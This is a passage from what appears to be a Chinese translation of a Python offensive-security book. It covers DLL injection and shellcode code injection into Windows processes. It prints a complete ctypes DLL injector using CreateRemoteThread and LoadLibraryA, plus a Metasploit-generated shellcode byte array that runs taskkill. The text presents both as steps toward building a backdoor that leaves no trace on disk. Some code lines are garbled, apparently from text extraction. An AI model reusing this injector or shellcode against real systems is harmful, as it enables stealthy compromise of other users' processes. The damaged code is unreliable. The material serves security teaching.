 DLL 注入测试的源码，可从 [`www.nostarch.com/ghpython.htm`](http://www.nostarch.com/ghpython.htm) 下载。

```py
#dll_injector.py
import sys
from ctypes import * 
PAGE_READWRITE = 0x04
PROCESS_ALL_ACCESS = ( 0x000F0000 | 0x00100000 | 0xFFF ) 
VIRTUAL_MEM = ( 0x1000 | 0x2000 )
kernel32 = windll.kernel32 
pid = sys.argv[1] 
dll_path = sys.argv[2] 
dll_len = len(dll_path)
# Get a handle to the process we are injecting into.
h_process = kernel32.OpenProcess( PROCESS_ALL_ACCESS, False, int(pid) ) 
if not h_process:
    print "[*] Couldn't acquire a handle to PID: %s" % pid 
    sys.exit(0)
# Allocate some space for the DLL path
arg_address = kernel32.VirtualAllocEx(h_process, 0, dll_len, VIRTUAL_ME PAGE_READWRITE)
# Write the DLL path into the allocated space 
written = c_int(0)
kernel32.WriteProcessMemory(h_process, arg_address, dll_path, dll_len, byref(written))
# We need to resolve the address for LoadLibraryA 
h_kernel32 = kernel32.GetModuleHandleA("kernel32.dll")
h_loadlib = kernel32.GetProcAddress(h_kernel32,"LoadLibraryA")
# Now we try to create the remote thread, with the entry point set
# to LoadLibraryA and a pointer to the DLL path as its single parameter thread_id = c_ulong(0)
if not kernel32.CreateRemoteThread(h_process,
                                    None, 0,
                                    h_loadlib, arg_address, 0,
                                    byref(thread_id)): 
    print "[*] Failed to inject the DLL. Exiting."
    sys.exit(0)
print "[*] Remote thread with ID 0x%08x created." % thread_id.value 
```

第一步，在目标进程内申请足够的空间，用于存储 DLL 的路径。第二步，将 DLL 路径 写入申请好的地址。第三步，解析 LoadLibraryA 的内存地址。最后一步，将目标进程句柄 和 LoadLibraryA 地址还有存储 DLL 路径的内存地址，传入 CreateRemoteThread()。一旦， 线程创建成功就会看到弹出一个窗口。

现在我们已经成功的完成了 DLL 注入。是让弹出窗口优点虎头蛇尾。但是这对于我们 明白注入的使用，非常重要。

### 7.1.2 代码注入

让我们再狡猾点，再黑点。代码注入能够将 shellcode 注入到一个运行的进程，立即执 行，不会在硬盘上留下任何东西。同样也能将一个进程的 shell 迁移到另一个进程。

接下来我们将用一个简短的 shellcode（能终止指定 PID 的进程）注入到目标进程，然 后杀掉目标进程，同时不留任何痕迹。这对于我们本章最后要创建的后门是至关重要的一步。 同样，我们还要演示如何安全的替换 shellcode，以适用更多的不同的任务。

可以通过 Metasploit 的主页获得终止进程的 shellcode，它们的 shellcode 生成器非常好 用。如果之前没用过的，直接访问 [`metasploit.com/shellcode/`](http://metasploit.com/shellcode/)。这次我们使用 Windows Execute Command shellcode 生成器。创建的 shellcdoe 如表 7-1。

```py
/* win32_exec - EXITFUNC=thread CMD=taskkill /PID AAAAAAAA Size=152 Encoder=None http://metasploit.com*/
unsigned char scode[] = 
    "\xfc\xe8\x44\x00\x00\x00\x8b\x45\x3c\x8b\x7c\x05\x78\x01\xef\x8b" 
    "\x4f\x18\x8b\x5f\x20\x01\xeb\x49\x8b\x34\x8b\x01\xee\x31\xc0\x99" 
    "\xac\x84\xc0\x74\x07\xc1\xca\x0d\x01\xc2\xeb\xf4\x3b\x54\x24\x04" 
    "\x75\xe5\x8b\x5f\x24\x01\xeb\x66\x8b\x0c\x4b\x8b\x5f\x1c\x01\xeb" 
    "\x8b\x1c\x8b\x01\xeb\x89\x5c\x24\x04\xc3\x31\xc0\x64\x8b\x40\x30" 
    "\x85\xc0\x78\x0c\x8b\x40\x0c\x8b\x70\x1c\xad\x8b\x68\x08\xeb\x09"
    "\x8b\x80\xb0\x00\x00\x00\x8b\x68\x3c\x5f\x31\xf6\x60\x56\x89\xf8" 
    "\x83\xc0\x7b\x50\x68\xef\xce\xe0\x60\x68\x98\xfe\x8a\x0e\x57\xff" 
    "\xe7\x74\x61\x73\x6b\x6b\x69\x6c\x6c\x20\x2f\x50\x49\x44\x20\x41" 
    "\x41\x41\x41\x41\x41\x41\x41\x00"; 
```